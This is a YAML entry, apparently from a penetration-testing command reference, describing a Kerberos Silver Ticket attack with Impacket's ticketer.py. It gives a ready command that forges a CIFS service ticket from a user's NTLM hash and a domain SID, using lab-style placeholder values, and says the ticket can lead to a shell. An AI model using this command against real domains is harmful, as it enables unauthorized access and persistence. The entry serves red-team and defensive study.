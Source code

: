 ```yaml
---
description: |
  Impacket's ticketer.py can perform Silver Ticket attacks, which crafts a valid TGS ticket for a specific service using a valid user's NTLM hash. It is then possible to gain access to that service. The following command crafts a TGS for the SMB service, which can then be used to gain a shell.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: john

  	Hash: b18b4b218eccad1c223306ea1916885f

  	Domain SID: S-1-5-21-1339291983-1349129144-367733775

  	SMB Service: cifs

command: |
  python3 ticketer.py -nthash b18b4b218eccad1c223306ea1916885f -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain test.local -dc-ip 10.10.10.1 -spn cifs/test.local john
items:
  - Username
  - Hash
services:
  - Kerberos
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
  - Persistence
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py
  - https://www.tarlogic.com/en/blog/how-to-attack-kerberos/
---
```

